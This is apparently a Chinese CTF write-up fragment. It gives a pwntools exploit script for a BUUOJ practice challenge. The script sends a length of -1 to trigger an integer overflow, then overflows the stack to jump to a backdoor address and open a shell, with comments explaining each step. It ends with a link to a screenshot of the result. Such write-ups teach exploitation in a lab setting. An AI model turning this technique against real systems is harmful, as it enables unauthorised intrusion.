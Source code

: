 ```python
from pwn import *
p=remote('node4.buuoj.cn',27552)
back_addr=0x0400726
p.recvuntil("the length of your name:\n")
p.sendline('-1')#利用整数溢出，使得read函数可以读取足够多的字节，进行栈溢出
payload ='a'*24+p64(back_addr)#read溢出到后门，直接获取shell
p.recvuntil("What's u name?\n")
p.sendline(payload)
p.interactive()
```

结果：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fmtstr/int2.png?x-oss-process=style/watermark)
